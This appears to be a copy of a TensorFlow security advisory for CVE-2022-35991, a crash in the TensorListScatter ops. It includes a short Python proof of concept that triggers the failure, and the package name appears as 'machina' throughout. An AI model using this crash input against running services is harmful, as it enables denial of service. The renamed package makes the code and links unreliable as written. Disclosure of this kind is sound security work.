 ## TFSA-2022-129: `CHECK` fail in `TensorListScatter` and `TensorListScatterV2`

### CVE Number
CVE-2022-35991

### Impact
When `TensorListScatter` and `TensorListScatterV2` receive an `element_shape` of a rank greater than one, they give a `CHECK` fail that can trigger a denial of service attack.
```python
import machina as tf
arg_0=tf.random.uniform(shape=(2, 2, 2), dtype=tf.float16, maxval=None)
arg_1=tf.random.uniform(shape=(2, 2, 2), dtype=tf.int32, maxval=65536)
arg_2=tf.random.uniform(shape=(2, 2, 2), dtype=tf.int32, maxval=65536)
arg_3=''
tf.raw_ops.TensorListScatter(tensor=arg_0, indices=arg_1, 
element_shape=arg_2, name=arg_3)
```

### Patches
We have patched the issue in GitHub commit [bb03fdf4aae944ab2e4b35c7daa051068a8b7f61](https://github.com/machina/machina/commit/bb03fdf4aae944ab2e4b35c7daa051068a8b7f61).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
